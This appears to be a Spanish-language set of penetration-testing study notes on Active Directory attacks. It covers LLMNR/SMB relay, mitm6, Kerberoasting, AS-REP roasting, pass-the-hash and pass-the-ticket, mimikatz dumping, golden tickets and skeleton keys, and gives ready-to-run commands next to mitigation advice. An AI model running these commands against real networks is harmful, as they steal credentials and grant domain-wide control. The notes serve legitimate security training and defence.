




# Ataques <!-- omit from toc -->

## Índice <!-- omit from toc -->

- [LLMNR Poisoning](#llmnr-poisoning)
  - [¿Qué es LLMNR?](#qué-es-llmnr)
  - [Ejecución](#ejecución)
  - [Defensas](#defensas)
- [SMB Relay](#smb-relay)
  - [¿Qué es?](#qué-es)
  - [Requisitos](#requisitos)
  - [Ejecución](#ejecución-1)
  - [Estrategias de mitigación](#estrategias-de-mitigación)
- [IPv6 Attacks](#ipv6-attacks)
  - [IPv6 DNS Takeover](#ipv6-dns-takeover)
    - [Ejecución](#ejecución-2)
  - [Estrategias de mitigación](#estrategias-de-mitigación-1)
- [Estrategias/proceso de pentesting a ambiente](#estrategiasproceso-de-pentesting-a-ambiente)
- [Post-Explotación](#post-explotación)
  - [Enumeración](#enumeración)
    - [PowerView](#powerview)
    - [BloodHound](#bloodhound)
      - [Recopilación](#recopilación)
      - [Carga de información](#carga-de-información)
  - [Ataques](#ataques)
    - [Privilege Requirements](#privilege-requirements)
    - [Abusing Pre-Authentication](#abusing-pre-authentication)
      - [Kerbrute](#kerbrute)
    - [Harvesting \& Brute-Forcing Tickets](#harvesting--brute-forcing-tickets)
      - [Rubeus](#rubeus)
      - [Harvesting](#harvesting)
      - [Brute-Forcing | Password-Spraying](#brute-forcing--password-spraying)
    - [Kerberoasting](#kerberoasting)
      - [Ejecución - Rubeus](#ejecución---rubeus)
      - [Ejecución - Impacket](#ejecución---impacket)
      - [Crackeo](#crackeo)
      - [¿Qué puede hacer una cuenta de servicio?](#qué-puede-hacer-una-cuenta-de-servicio)
      - [Mitigación](#mitigación)
    - [AS-REP Roasting](#as-rep-roasting)
      - [Overview](#overview)
      - [Ejecución - Rubeus](#ejecución---rubeus-1)
      - [Ejecución - Impacket](#ejecución---impacket-1)
      - [Crackeo](#crackeo-1)
      - [Mitigación](#mitigación-1)
    - [Pass The Ticket](#pass-the-ticket)
      - [Overview](#overview-1)
      - [Ejecución](#ejecución-3)
      - [Mitigación](#mitigación-2)
    - [Pass The Hash](#pass-the-hash)
      - [Dumpeo de hashes](#dumpeo-de-hashes)
      - [Mitigaciones](#mitigaciones)
    - [Token Impersonation](#token-impersonation)
      - [Ejecución](#ejecución-4)
        - [Metasploit](#metasploit)
        - [Non-metasploit](#non-metasploit)
      - [Mitigación](#mitigación-3)
    - [Group Policy Preferences (GPP) - AKA MS14-025](#group-policy-preferences-gpp---aka-ms14-025)
      - [Ejecución](#ejecución-5)
    - [Mimikatz](#mimikatz)
      - [Credential Dumping](#credential-dumping)
    - [Golden/Silver Tickets](#goldensilver-tickets)
      - [KRBTGT Overview](#krbtgt-overview)
      - [Attack Overview](#attack-overview)
      - [Ejecución](#ejecución-6)
    - [Kerberos Backdoors](#kerberos-backdoors)
      - [Skeleton Key Overview](#skeleton-key-overview)
      - [Ejecución](#ejecución-7)
    - [Abusando de ACLs/ACEs](#abusando-de-aclsaces)
      - [ReadGMSAPassword](#readgmsapassword)
- [Referencias](#referencias)

## LLMNR Poisoning

### ¿Qué es LLMNR?

- Link-Local Multicast Name Resolution ("Prácticamente" se podría considerar DNS).
- Usado para identificar hosts cuando falla en esa tarea el DNS.
- Anteriormente conocido como NBT-NS.
- La falla principal es que los servicios ocupan un nombre de usuario del sistema operativo y un hash NTLMv2 a los cuales responden.


### Ejecución

1. Ejecutar responder (herramienta de impacket) `responder -I tun0 -rdw -v`.


2. Evento ocurre


3. Obtener hashes


4. Crackeo de hashes `hashcat -m 5600 hashes.txt rockyou.txt`


### Defensas

La mejor defensa para este escenario es deshabilitar LLMNR y NBT-NS:

- Para deshabilitar LLMNR, se debe seleccionar "Turn OFF Multicast Name Resolution" en `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client en el Group Policy Editor`
- Para deshabilitar NBT-NS, se requiere navegar a `Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab y seleccionar "Disable NetBIOS over TCP/IP"`.

En una compañia en donde es necesario usarse o no se puede deshabilitar LLMNR/NBT-NS, lo mejor que se puede realizar es:

- Requerir Network Access Control.
- Requerir contraseñas de usuario fuertes (ejemplo, 14+ carácteres de longitud y límite de uso de palabras comúnes). Entre más larga y compleja la contraseña, más difícil será crackear el hash.

## SMB Relay

### ¿Qué es?

En vez de buscar crackear los hashes obtenidos con responder, en su lugar se pueden retransmitir a máquinas en específico y potencialmente obtener acceso.

### Requisitos

- SMB signing se debe encontrar deshabilitado en el objetivo.
- Las credenciales de usuario retransmitidas deberán ser de un administrador de la máquina.

### Ejecución

1. Modificar `responder.conf`


2. Ejecutar responder `responder.py -I tun0 -rdw -v`.

3. Configurar relay a utilizar `impacket-ntlmrelayx -tf targets.txt -smb2support`.


4. Evento ocurre


5. Win (Pass the hash o Cracking)


### Estrategias de mitigación

- Habilitar SMB Signing en todos los dispositivos.
    - Ventaja: Para completamente el ataque.
    - Desventaja: Puede causar problemas de rendimiento con transferencia de archivos.
- Deshabilitar autenticación NTLM en la red.
    - Ventaja: Para completamente el ataque.
    - Desventaja: Si Kerberos deja de funcionar, Windows regresa por default a NTLM.
- Gestionar nivel de cuentas.
    - Ventaja: Limita a los administradores de dominio a tareas específicas (ejemplo, permitiéndoles loguearse sólo a servidores de dominio, etc.).
    - Desventaja: Hacer cumplir la política podría resultar difícil.
- Restricción de administrador local.
    - Ventaja: Puede prevenir el movimiento lateral.
    - Desventaja: Potencial incremento de la cantidad de tickets de service desk.

## IPv6 Attacks

### IPv6 DNS Takeover

La forma de ejecutar se basa en la herramienta [mitm6](https://github.com/dirkjanm/mitm6), la cual abusa la configuración por defecto de Windows para tomar el control del servidor DNS predeterminado. Haciéndolo mediante replicación de mensajes por medio de DHCPv6, proveyendo a la víctimas un enlace local con una dirección IPv6 y configurando a los hosts atacantes como servidor DNS por defecto. Como servidor DNS, `mitm6` selectivamente replicará las consultas DNS de los atacantes, eligiendo y redirigiento el tráfico víctima a la máquina del atacante en lugar del servidor legítimo. En [esta entrada del blog](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) se puede encontrar una explicación completa del ataque. `mitm6` está diseñada para trabajar en conjunto con `ntlmrelayx` de impacket para suplantación de WPAD y retransmisión de credenciales.

#### Ejecución

Es importante señalar que en el ambiente debe estar habilitado `LDAPS`, en la mayoría de los ambientes se encuentra habilitado.

1. Ejecutar mitm6 indicando el dominio `mitm6 -d dsouls.local`
2. Ejecutar ntlmrelayx indicando ip de domain controller, WPAD y loot (en caso de querelo) `impacket-ntlmrelayx -6 -t ldaps://192.168.111.149 -wh fakewpad.dsouls.local -l lootme`.
3. A la hora de efectuarse, la información recopilada se almacenara en la carpeta indicada para loot.


4. Si llegará autenticarse un administrador de dominio se ejecutará un alta de usuario nuevo con contraseña indicada en el log de `ntlmrlayx`.


### Estrategias de mitigación

1. El envenamiento por IPv6 abusa el hecho de que Windows consulta por una dirección IPv6 incluso en ambientes donde sólo está habilitado IPv4. Si internamente no se usa IPv6, la forma más segura de prevenir `mitm6` es bloqueando tráfico DHCPv6 y anuncios entrantes del router en el Firewall de Windows vía Group Policy. Deshabilitar IPv6 completamente podría traer consigo efectos secundarios no deseados. Configurando las siguientes reglas para bloquear en vez de permitir, previene que el ataque funcione.
    - (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)
    - (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
    - (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)
2. Si WPAD no es usado internamente, deshabilitarlo vía Group Policy y deshabilitar el servicio WinHttpAutoProxySvc.
3. Retransmisión a LDAP y LDAPS sólo puede ser mitigada habilitando LDAP singning y LDAP channel binding.
4. Considerar etiquetar/mover a los usuarios administrativos al grupo de Protected Users o marcarlos como una Cuenta, es sensible y no puede delegarse, lo que prevendrá la impersonificación de ese usuario vía delegación.

## Estrategias/proceso de pentesting a ambiente

- Inicial el día con `mitm6` o `responder`.
- Ejecutar escaneos para generar tráfico.
- Si los escaneos están tardando mucho, buscar sitios web dentro dle alcance (http_version - módulo de metasploit).
- Buscar credenciales por default en logins web:
  - Impresoras.
  - Jenkins.
  - Etc.
- Pensar fuera de la caja.

## Post-Explotación

### Enumeración

#### PowerView

Tabla de comandos relevantes, verificar documentación y/o [cheatsheet anexada](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

- `Get-NetDomain`: Obtiene información del dominio.



- `Get-NetDomainController`: Identifica y obtiene información de los controladores de dominio.



- `Get-DomainPolicy`: Obtiene las políticas del dominio.


- `Get-NetUser`: Obtiene información acerca de los usuarios (considerar la propiedad `logoncount` podría existir la posibilidad que se encuentren usuarios HoneyPot).



- `Get-NetComputer`: Obtiene toda la información de las computadoras enroladas en el dominio.


- `Invoke-ShareFinder`: Realiza un búsqueda de las carpetas compartidas por medio de smb.


- `Get-NetGPO`: Obtiene infomación de todas las Group Policies.


#### BloodHound

##### Recopilación


Recopilación de información con `SharpHound.ps1` disponible en el [repositorio oficial de BloodHound de recolectores](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors).

`Invoke-BloodHound -CollectionMethod All -Domain DSOULS.local -ZipFileName file.zip`

**Nota: Dentro de los recolectores disponibles específicamente de `SharpHound.ps1` y `SharpHound.exe` se han notado diferencias en como es graficada y recopilada la información, por lo que durante el recopilado de información se sugiere realizar dos recopilados, ejecutando `SharpHound.exe` sin ningún parámetro y `SharpHound.ps1` o `SharpHound.exe` específicando los métodos de recolección (`CollectionMethod`, etc.).**

##### Carga de información

Seleccionar `Upload Data` ubicado en el menú de la derecha de BloodHound y seleccionar el zip extraído.


Al terminar la carga del zip se podrá visualizar la información recopilada, exponiendo rutas potenciales de escalación y como ejecutarlas.


### Ataques

#### Privilege Requirements

- Kerbrute Enumeration - No es necesario el acceso al dominio.
- Pass the Ticket - Es necesario el acceso a un usuario del dominio.
- Kerberoasting - Es necesario el acceso de cualquier usuario.
- AS-REP Roasting - Es necesario el acceso de cualquier usuario.
- Golden Ticket - Es necesario acceso completo al dominio (domain admin).
- Silver Ticket - Es necesario un hash de servicio.
- Skeleton Key - Es necesario acceso completo al dominio (domain admin).

**Nota: antes de iniciar cualquier testeo es necesario registrar el nombre de dominio en la máquina (`/etc/hosts`), de lo contrario se esperaría un comportamiento no esperado o simplemente no funcionar.**

#### Abusing Pre-Authentication

Al ejecutar fuerza bruta a la pre-autenticación de Kerberos, no se disparan eventos de error de autenticación (en el logueo), lo que se convertiría en indicadores para el blue team.
Cuando se realiza fuerza bruta a través de Kerberos, se puede realizar mandando sólo un frame UDP al KDC permitiéndonos enumerar usuarios.

##### Kerbrute

Para encontrar posibles usuarios a usar para obtener acceso a la red, se puede hacer uso de [Kerbrute](https://github.com/ropnop/kerbrute) haciendo uso de una lista preestablecida de usuarios a probar.

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local users.txt
```


#### Harvesting & Brute-Forcing Tickets

##### Rubeus

Rubeus cuenta con una amplia gama de ataques y características que la permiten ser una herramienta muy versátil para realizar ataques contra Kerberos. Dentro de las herramientas y ataques que incluye se encuentran overpass the hash, renovación y requests de tickets, gestión de tickets, extracción de tickets, harvesting, pass the ticket, AS-REP Roasting y Kerberoasting.

[Repositorio de Rubeus.](https://github.com/GhostPack/Rubeus)

[Repositorio de binarios de Rubeus.](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

##### Harvesting

Haciendo uso del comando:

```powershell
Rubeus.exe harvest /interval:30
```

Rubeus recopilará TGTs cada 30 segundos.


##### Brute-Forcing | Password-Spraying

Rubeus puede ser usado para hacer fuerza bruta de contraseñas como para hacer password spraying en las cuentas.

Este ataque tomará la contraseña basada en Kerberos y realizar un spray en todos los usuarios encontrados proporcionando un ticket `.kirbi`. Este ticket es un TGT que puede ser usado para obtener tickets de servicio del KDC así como usarlo en los ataques así como el ataque pass the ticket.

Antes de ejecutar un spray de contraseñas se necesita añadir el nombre de dominio al archivo de host de windows usando `echo 10.10.116.144 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

Ejecutando `Rubeus.exe brute /password:Password1 /noticket` se usará la contraseña proveída y realizará un spray a todos los usuarios que se encuentren y con esto se obtendrá un TGT `.kirbi` para ese usuario.


Considerar la ejecución del ataque ya que puede ocasionar el bloqueo de cuentas, dependiendo de las políticas de las cuentas.

#### Kerberoasting

Kerberos in a nutshell:

1. Cuando un usuario se loguea en el Active Directory, el usuario se autentica contra el Domain Controller (DC) usando su contraseña.
2. El DC le envía al usuario un Ticket Granting Ticket (TGT - Kerberos). El TGT es presentado a cualquier DC para probar la autenticación con un ticket de servicio de Kerberos.
3. El usuario abre Skype lo cual causa que la estación de trabajo (computadora cliente) busqué el Service Principal Name (SPN) para el servidor de Exchange de usuarios.
4. Una vez que el SPN es identificado, la computadora se comunica con el DC de nuevo y presenta el TGT del usuario así como también el SPN del recurso al cual el usuario se necesita comunicar.
5. El DC responde con el  Ticket Granting Service (TGS) de Kerberos.
6. La estación de trabajo del usuario presenta el TGS al servidor de Exchange para obtener acceso.
7. Skype se conecta satisfactoriamente.


##### Ejecución - Rubeus

Haciendo uso de:

```powershell
Rubeus.exe kerberoast # Como Administrator
Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Password123
```

Se permite el dumpeo de los usuarios aplicables.


##### Ejecución - Impacket

Habiendo conseguido las credenciales de un usuario válido de la máquina se puede ejecutar el ataque haciendo uso de:

```bash
impacket-GetUserSPNs {dominio/usuario:contraseña} -dc-ip {ip de dominio} -request
```


*Nota: si se identifica un error similar a `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` basta con ejecutar `ntpdate <HOST>` para sincronizar la hora del sistema con la del servidor.*

##### Crackeo

Después de conseguir el hash, se puede buscar crackearlo (ejemplo empleado con `hashcat -m 13100 kerberos.hash rockyou.txt` )


##### ¿Qué puede hacer una cuenta de servicio?

Después de crackear una constraseña de la cuenta de un servicio existen varias formas de exfiltrar datos o recolectar información relevante dependiendo de si la cuenta obtenida es un domain admin o no.

Si la cuenta de servicio es un domain admin el control es similar a cuando se tiene un golden/silver ticket pudiendo obtener los contenidos de `NTDS.dit`.

Si la cuenta de servicio no es un domain admin se puede usar para loguearse en otros clientes/sistemas y pivotear o escalar o validar que esa contraseña crackeada sea reciclada para otro servicio o cuenta de usuario.

##### Mitigación

- Contraseñas fuertes.
- Principio del privilegio mínimo (en el ejemplo se configuró un servicio el cuál tiene permisos de administrador de dominio, siendo esto una configuración común no apropiada).

#### AS-REP Roasting

Este método al igual que en Kerberoasting es usado para obtener los hashes krbasrep5 de cuentas de usuario que tienen la pre-autenticación de Kerberos deshabilitada.

A diferencia de Kerberoasting estos usuarios no necesitan ser cuentas de servicios, el único requisito es que el usuario debe tener la pre-autenticación deshabilitada.

##### Overview

Mientras se realiza la pre-autenticación, el hash de los usuarios será usado para cifrar un timestamp que el DC intentará decifrar para validar que es el hash correcto el que se está usando. Después de validar el timestamp el KDC generará un TGT para el usuario. Si la pre-autenticación está deshabilitada se puede solicitar cualquier data de autenticación para cualquier usuario y el KDC retornará un TGT cifrado que puede ser crackeado offline debido a que el KDC salta el paso de validación que verifica que el usuario es quien dice ser.

##### Ejecución - Rubeus

Haciendo uso de `Rubeus.exe asreproast` permite buscar usuarios vulnerables para extraer el hash del usuario vulnerable encontrado.


##### Ejecución - Impacket

Impacket permite dos alcances añadiendole un valor extra al método, proponiendo 2 escenarios para la ejecución (es necesario contar con una lista de usuarios potenciales o bien usar un diccionario):

1. (Recomendada) Dando una lista de usuarios existentes en el sistema, es decir, hacer previamente enumeración de usuarios con Kerbrute, de esta manera sólo se realizará la búsqueda de usuarios vulnerables.
2. Proporcionar un diccionario de usuarios sin realizar la validación de su existencia, de esta manera impacket verificará la existencia del usuario antes de buscar la vulnerabilidad.

Haciendo uso de `impacket-GetNPUsers {dominio/usuario:contraseña} -dc-ip {ip de dominio} -no-pass` (uso dependiente de escenario).

Habiendo realizado antes la enumeración de usuarios existentes el comando:

```bash
for user in $(cat users.txt); do impacket-GetNPUsers -dc-ip <ip de dominio> <dominio>/${user} -no-pass | grep -v Impacket; done
```

Se realiza un filtrado conveniente para identificar la vulnerabilidad.


1. Enumeración de usuarios.
2. Uso de impacket.

##### Crackeo

Después de conseguir el hash, si se desea usar hashcat para crackearlo es necesario concatenar `23$` después de `$krb5asrep$` obteniendo algo como `$krb5asrep$23$User...` usando `hashcat -m 18200 asrep.hash rockyou.txt` )


##### Mitigación

- Mantener una política de contraseñas fuertes.
- No deshabilitar la pre-autenticación de Kerberos a menos que sea necesario.

#### Pass The Ticket

##### Overview

Este método está basado en extraer el TGT de la memoria LSASS de la máquina. El Local Security Authority Subsystem Service (LSASS) es un proceso de memoria que guarda credenciales en el servidor de directorio activo y puede guardar tickets de Kerberos junto con otro tipo de credenciales por lo que actúa como portero aceptando o rechazando las credenciales que reciba. Lost tickets de Kerberos se pueden extraer de la memoria LSASS al igual como los hashes.

Al extraer los tickets con mimikatz se obtendrá un ticket `.kirbi` que puede ser usado para ganar acceso como domain admin si un ticket de un domain admin se encuentra en la memoria LSASS. Este ataque es ideal como técnica para hacer escalación de privilegios y movimiento lateral si se encuentran disponibles tickets no asegurados de una cuenta de servicio de dominio.

El ataque permite escalar a domain admin si se extrae un ticket del mismo para impersonar ese ticket usando el ataque PTT de mimikatz permitiendo actuar como domain admin.

##### Ejecución

Con `sekurlsa::tickets /export` se exportará los tickets .kirbi al directorio donde actualmente se encuentre.



Después de identificar un ticket que se pueda utilizar se usa `kerberos::ptt <ticket>` siendo el ticket el archivo que se exportó previamente y con `klist` fuera de mimikatz se nos permite validar que el usuario se haya cargado correctamente.

##### Mitigación

- Evitar que los domain admins se logueen a nada que no sea el domain controller ya que a pesar de ser algo simple es fácil caer en la mala práctica de loguearse en computadoras "low-level" dejando tickets abriendo posibilidad al uso del ataque.

#### Pass The Hash

Se refiere a que si se llega a crackear contraseña y/o se obtienen hashes SAM, se pueden aprovechar ambas para realizar movimiento lateral a través de la red.

Haciendo uso de `crackmapexec` se pueden validar las credenciales previamente crackeadas en un host en específico o en un segmento de red.

Utilizando:

`crackmapexec {protocolo} {ip/rango} -u {usuario} -d {dominio} -p {contraseña}`

Donde protocolo puede ser `{smb, winrm, ssh, mssql, ldap}`

Ejemplo:


O bien, con el hash obtenido se puede loguear a la cuenta igualmente usando `crackmapexec`.

`crackmapexec {protocolo} {ip/rango} -u {usuario} -H {hash} --local-auth`

Ejemplo:


##### Dumpeo de hashes

Haciendo uso de `impacket-secretsdump` se puede loguear en la cuenta y máquina objetivo para obtener los hashes existentes.


Posteriormente ejecutando `hashcat` se puede buscar crackear la colección de hashes obtenidos indicándolo en las banderas.

`.\hashcat.exe -m {# hashmode} {archivo de hashes} {diccionario}`


Para buscar obtener una shell se puede usar `impacket-psexec`, `impacket-smbexec` o `impacket-wmiexec` pasándole el hash obtenido para autenticarse con él en lugar de la contraseña.

Ejemplo:

`impacket-psexec Gwyn:@192.168.111.145 -hashes {valor}`

TODO: Agregar imagen

##### Mitigaciones

Es difícil de prevenir por completo, pero se le puede hacer más difícil a un atacante:

- Limitar reusos en las cuentas:
  - Evitar reusar la contraseña del administrador local.
  - Deshabilitar las cuentas de Guest y Administrator.
  - Limitar al administrador local (privilegios mínimos).
- Usar contraseñas fuertes:
  - Entre más largas mejor (mayor a 14 caracteres).
  - Evitar usar palabras comúnes.
  - Oraciones largas.
- Privilege Access Management (PAM)
  - Check out/in cuentas sensibles cuando sea necesario.
  - Rotar contraseñas automáticamente en el check out y check in.

#### Token Impersonation

Los tokens son llaves temporales que permiten el acceso a un sistema o red sin tener que proveer credenciales cada vez que se accede a un archivo (como las cookies de una computadora).

Tipos:

- Delegate. Creados para loguearse a una máquina o para usar escritorio remoto.
- Impersonate. "non-interactive" tal como agregar una unidad de red o un script de logueo de dominio.

##### Ejecución

TODO

###### Metasploit

Se encuentra disponible el módulo `incognito` el cual se puede cargar a una sesión de meterpreter con `load incognito`.


Para visualizar los tokens que se encuentran actualmente en la máquina se hace uso de `list_tokens -u` (pudiendo visualizar tokens no sólo de usuarios si no de grupos lo que es indicado con la bandera agregada `-u`).


Para poder utilizar el token se ocupa `impersonate_token {usuario}`.


*Nota: Los tokens son válidos hasta el reinicio de una máquina.*

###### Non-metasploit

Haciendo uso de ataques de tipo Juicy, Rotten y Lonely Potatoe.

##### Mitigación

- Limitar permiso de creación de tokens usuario/grupo.
- Gestionar niveles de cuenta (account tiering).
- Restricción a administrador local.

#### Group Policy Preferences (GPP) - AKA MS14-025

- Las Group Policy Preferences permiten a los administradores crear políticas usando credenciales embebidas.
- Estas credenciales son cifradas y almacenadas en una "cPassword".
- La llave fue accidentalmente lanzada (whoops).
- Parchada en MS14-025 pero no previene usos previos.

##### Ejecución

La vulnerabilidad radica en que la llave de cifrado es pública, por lo que si se llega a obtener el valor de lo que cifra, es decir, `cpassword` se encuentra expuesta a descifrarse, haciendo uso de `gpp-decrypt`. Ver referencias y write-up de máquina Active de HTB para más información.

#### Mimikatz

- Herramienta empleada para ver y obtener credenciales, generar tickets de Kerberos.
- Recupera credenciales alojadas en memoria.
- Permite ejecutar ataques: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket.

##### Credential Dumping

- Bypass de protección y acceso a memoria: `privilege::debug`.
- Extracción de información de cuentas logueadas desde el último reinicio (hashes NTLM):  `sekurlsa::logonpasswords`.
- Dumpeo de SAM: `lsadump::sam` | `lsadump::sam /patch`.
- Dumpeo de LSA: `lsadump::lsa /patch`. *LSA (Local Security Authority) subsistema protegido de autenticación de windows, autentica y crea sesiones de logueo en la computadora local.*

#### Golden/Silver Tickets

Un silver ticket en ocasiones puede ser empleado en vez de un golden ticket debido a que es más discreto. Si ser sigiloso y permanecer sin ser detectado importa para el ejercicio, esta opción resulta más conveniente que un golden ticket sin embargo, el proceso a realizar para generar uno es el mismo. La diferencia principal es que el silver ticket está limitado al servicio al que se utilizó como objetivo por lo que en el golden ticket se tiene acceso a cualquier servicio de Kerberos.

Un escenario específico para un silver ticket podría presentarse al querer el acceso al servidor SQL del dominio sin embargo se comprometió un usuario el cual no tiene acceso a ese servidor. Se encuentra una cuenta de servicio accesible para obtener el primer contacto por medio de kerberoasting a el servicio para extraer el hash del servicio e impersonar su TGT para poder solicitar un ticket de servicio para el servicio SQL del KDC permitiendo así el acceso al servidor SQL del dominio.

##### KRBTGT Overview

Para ayudar a compreder como funcionan estos ataques es importante entender la diferencia entre KRBTGT y TGT. KRBTGT es una cuenta de servicio para el KDC (Key Distribution Center) este genera todos los tickets de los clientes. Si se impersona esta cuenta y se crea un golden ticket de la KRBTGT significa que se tiene la habilidad de crear un ticket de servicio de cualquier cosa que se desee. Un TGT es un ticket asignado a una cuenta de servicio generado por el KDC y sólo se puede tener acceso a ese servicio, lo que en el escenario planteado representaría un  ticket del servicio SQL por ejemplo.

##### Attack Overview

En el ataque se extrae un TGT para cualquier usuario de dominio que preferentemente se buscaría un domain admin, sin embargo para un golden ticket se buscaría extraer el ticket krbtgt y para un silver ticket se buscaría extraer un ticket de cualquier servicio o de un domain admin. Esto proveería con el SID (Security Identifier) de la cuenta objetivo (de servicio o domain admin) que es único para cada cuenta.

##### Ejecución

Para realizar el procedimiento es necesario obtener el identificador el dominio y el hash NTLM de la cuenta de krbtgt, obteniéndolo mediante `lsadump::lsa /inject /name:krbtgt` en mimikatz. En el caso de se opte por un silver ticket se necesitaría cambiar el parámetro `/name:<cuenta>` para extraer el hash de una cuenta domain admin o una cuenta de servicio.


Ejecutar `kerberos::golden /User:<nombre de usuario> /domain:<dominio> /sid:<sid extraido> /krbtgt:<hash NTLM> /id:<rid> /ptt` (Usando `/ptt` para inyectarlo en la sesión actual o sin la bandera para extraerlo a un archivo). Ejemplo `kerberos::golden /User:Administrator /domain:dsouls.local /sid:S-1-5-21-1128842135-684543689-3182004798 /krbtgt:cbb7b576e46b82269910709d9d92ef2d /id:500 /ptt`.

Para crear un silver ticket se sustituiría el hash NTLM del servicio en `/krbtgt:<hash>` el SID del servicio en `/sid:<sid>` y cambiar el id por `/id:1103`.


TODO: Verificar la inyección del ticket desde fuera.

Levantar una sesión cmd con el ticket creado: `misc::cmd`.
Visualizar contenido de un cliente perteneciente al dominio: `dir \\SITH\c$`
Obtener una shell interactiva en cliente remoto con [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite): `psexec.exe \\SITH cmd.exe`


#### Kerberos Backdoors

Existe una forma más sutil de realizar un ataque similar al del golden y silver ticket  ya que actúa similar a un rootkit implantandose por si mismo en la memoria en el domain forest permitiéndose acceso a cualquier máquina usando una contraseña maestra.

La skeleton key abusa la forma en la que AS-REQ valida los timestamps cifrados y sólo funciona usando el cifrado RC4 de Kerberos.

El hash por defecto para una skeleton key de mimikatz es `60BA4FCADC466C7A033C178194C03DF6` que resulta en la contraseña *mimikatz*.

##### Skeleton Key Overview

De acuerdo a lo antes mencionado, el timestamp es cifrado con el hash NT de los usuarios. El domain controller después intenta descifrar el timestamp con el hash NT del usuario, una vez que la skeleton key sea implantada en el domain controller trata de decifrar el timestamp usando el hash NT del usuario y el hash NT de la skeleton key permitiendo el acceso al domain forest.

##### Ejecución

`misc::skeleton`

TODO: evidencia


#### Abusando de ACLs/ACEs

##### ReadGMSAPassword

Un atacante puede leer la contraseña GMSA para la cuenta que es aplicada la ACE.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
# Visualizar la contraseña en texto claro
ConvertTo-SecureString $mp -AsPlainText -Force
```

## Referencias

- [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa).
- [NTLM relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).
- [PowerView CheatSheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).
- [Kerberoasting your way in](https://medium.com/@Shorty420/kerberoasting-9108477279cc).
- [Pentesting in the Real World: Group Policy Pwnage](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/).
- [Ejercicio GPP - HTB Active](https://github.com/srrequiem/SecNotes/blob/main/HTB/Boxes/Windows/1_Easy/Active/htb_active.md).
- [Attacking Kerberos - TryHackMe](https://tryhackme.com/room/attackingkerberos)
- [Pass-The-Ticket (PTT) attack in Mimikatz (and a Gotcha!)](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [Kerberoasting Revisited](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [Not A Security Boundary: Breaking Forest Trusts](https://blog.harmj0y.net/redteaming/not-a-security-boundary-breaking-forest-trusts/)
